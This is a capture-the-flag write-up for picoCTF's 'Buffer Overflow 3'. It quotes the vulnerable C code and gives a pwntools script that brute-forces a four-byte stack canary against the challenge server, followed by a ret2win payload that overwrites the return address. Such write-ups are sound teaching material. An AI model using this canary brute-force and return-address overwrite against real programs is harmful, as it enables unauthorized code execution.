 ### BUFFER OVERFLOW 3
---

This challenge does appear a mitigation called 'canary'. https://en.wikipedia.org/wiki/Buffer_overflow_protection
```
char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    fflush(stdout);
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}
```
Canary in this challenge is four bytes located at $ebp-0x10 as we can see. I created canary.txt containing ``` aaaa ```.
![image](https://github.com/user-attachments/assets/36dec827-0460-4b64-928e-db0c1a5b8d37)

If we solve it locally, it's really easy because we can control canary. But we have to connect to their server. This is our problem. According to hint, we'll bruteforce
every single canary char one by one.
```
#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4
void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count); // bof

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}


└─$ ./vuln
How Many Bytes will You Write Into the Buffer?
> 65
Input> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Ok... Now Where's the Flag?
```
We have 64 bytes offset until the program reaches canary.
Locally, we have canary is ``` b'aaaa' ```. When we type in 65 bytes 'a'. The last byte still matches the canary, that's why it prints out ``` Ok... Now Where's the Flag? ```.
Therefore, our approach is brute-force one character at a time. Then, concat it with canary until enough 4 bytes.
```
#!/usr/bin/python3

from pwn import *
import sys
import string

exe = ELF('./vuln', checksec=False)

# bruteforce canary

canary_off = 64

canary = b''
for i in range(1, 5):
	for c in string.printable:
		r = remote('saturn.picoctf.net',56046)


		r.sendlineafter(b'> ', str(canary_off + i).encode())

		payload = b'a'*canary_off + canary + c.encode()

		r.sendlineafter(b'Input> ', payload)
		output = r.recvall()

		if b"Ok... Now Where's the Flag?" in output: # found 1 character
			canary += c.encode()
			print(c)
			break
```

Finally, same as bof1 and bof2, we'll use ret2win technique to obtain our flag

```
p = remote('saturn.picoctf.net',56046)
payload = b'a'*canary_off + canary 
payload += b'a'*16 # after canary -> ebp
payload += p32(exe.sym['win'])

# pause()
p.sendlineafter(b'> ', str(len(payload)).encode())

# pause()
p.sendlineafter(b'Input> ', payload)
p.interactive()
```



